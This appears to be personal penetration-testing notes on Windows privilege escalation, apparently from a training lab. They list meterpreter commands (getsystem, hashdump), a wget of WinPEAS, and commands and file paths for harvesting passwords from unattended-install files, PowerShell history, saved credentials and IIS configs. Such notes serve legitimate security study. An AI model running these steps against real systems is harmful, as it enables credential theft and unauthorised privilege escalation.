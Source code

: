 **Execute the shell**
```powershell
C:\Users\Public\shell.exe
```

**Some meterpreter commands**
`help`
`getsystem` : Attempt to elevate your privilege to that of local system
`hashdump`: Dumps the contents of the SAM database
`upload` : Upload a file or directory
`download` : Download a file or directory
### Enumeration
[Seatbelt](https://github.com/GhostPack/Seatbelt)

**Get WinPEAS**
```shell
wget "https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -O winPEAS.exe
```


### Harvesting Passwords from Usual Spots

##### Unattended Windows installations locations
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

##### Powershell History
**On powershell.exe**
```Powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
**On cmd.exe**
```Powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

##### Saved Windows credentials
```Powershell
cmdkey /list
```
![[Screenshot_2024-07-21_11-02-30.png]]
```Powershell
runas /savecred /user:mike.katz cmd.exe
```

##### IIS Configuration
**Locations**
- C:/inetpub/wwwroot/web.config
- C:/Windows/Microsoft.NET/Framework64/v4.0.30319/Config/web.config
